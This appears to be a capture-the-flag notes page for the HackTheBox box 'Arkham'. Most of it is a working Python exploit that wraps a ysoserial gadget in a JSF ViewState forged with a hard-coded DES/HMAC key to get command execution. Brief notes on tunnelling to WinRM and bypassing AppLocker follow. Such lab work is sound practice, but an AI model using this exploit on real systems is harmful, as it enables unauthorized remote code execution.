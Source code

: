 

```
#from Crypto.Util.Padding import pad, unpad
from Crypto.Cipher import DES
from Crypto.Hash import HMAC, SHA1
import base64
import subprocess
import urllib

command = raw_input('Command: ')
ysoserial = b'java -jar /home/htb/boxes/arkham/ysoserial/ysoserial.jar CommonsCollections1 \'' + command + '\''
payload = subprocess.check_output(ysoserial, stderr=subprocess.STDOUT, shell=True)

def decrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    return cipher.decrypt(data)
def encrypt_vs(data):
    key = 'JsF9876-'
    mode = DES.MODE_ECB
    cipher = DES.new(key, mode)
    pad = (8 - (len(data) % 8)) % 8
    padded = data + (chr(pad)*pad).encode()
    return cipher.encrypt(padded)
def hmac_vs(data):
    key = 'JsF9876-'
    mode = digestmod=SHA1
    h = HMAC.new(key, data, mode)
    return h.digest()

#pad payload it needs to be in the padded state to be
#to be hashed/ viewstate to make a proper hash
purevs = encrypt_vs(payload)
encrypted = (encrypt_vs(payload)).encode("base64").replace('\n','')
enmac = (hmac_vs(purevs)).encode("base64").replace('\n','')
pleasesubscribe = (urllib.quote_plus(encrypted + enmac))
print (pleasesubscribe) # why not lol
```

possible avenues to root 5985 winrm but i would need creds still?

smb maybe accessing the smb share locally will give me super powers

i could encode thing and bypass applocker. 

the hints on the forum allude to using soemthing i have access to in the begining. or enumed. 

well just use chisel and try to access winrm since it isn't exposed tot he internet i feel like it may not have any security locally. @@

Well, winrm is most likely one way... but the previous creds and possible usersnames didn't work. Enumerating the user directories. 
